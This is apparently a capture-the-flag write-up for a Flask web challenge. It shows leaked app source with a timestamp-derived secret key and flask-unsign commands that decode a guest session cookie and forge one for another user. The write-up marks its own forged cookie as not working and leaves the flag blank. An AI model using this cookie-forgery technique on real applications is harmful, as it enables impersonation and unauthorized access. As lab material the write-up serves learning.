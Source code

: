 # Thomas DEVerson
All things considered, I'm impressed this website is still up and running 200 years later.

# Flag

# Solution

Viewing source code, there is a `/backup` page:

```
---------- command output: {head -n 10 app.py} ----------

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

---------- command output: {head -n 10 requirements.txt} ----------

Flask==3.0.3
```

See `req.py` to obtain the app secret key:
```
THE_REYNOLDS_PAMPHLET-179708251645
```

Session Manipulation:
```bash
flask-unsign --decode --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.Zk-_xg.1LzY-qUyYbn726AxGD-YZuBrnts'
# {'name': 'guest'}

flask-unsign --sign --cookie "{'name': 'jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708251645'
# eyJuYW1lIjoiamVmZmVyc29uIn0.Zk_ClQ.7S5B847Pp8I6JgVy7aaiytWQWHc
# not working ^^
```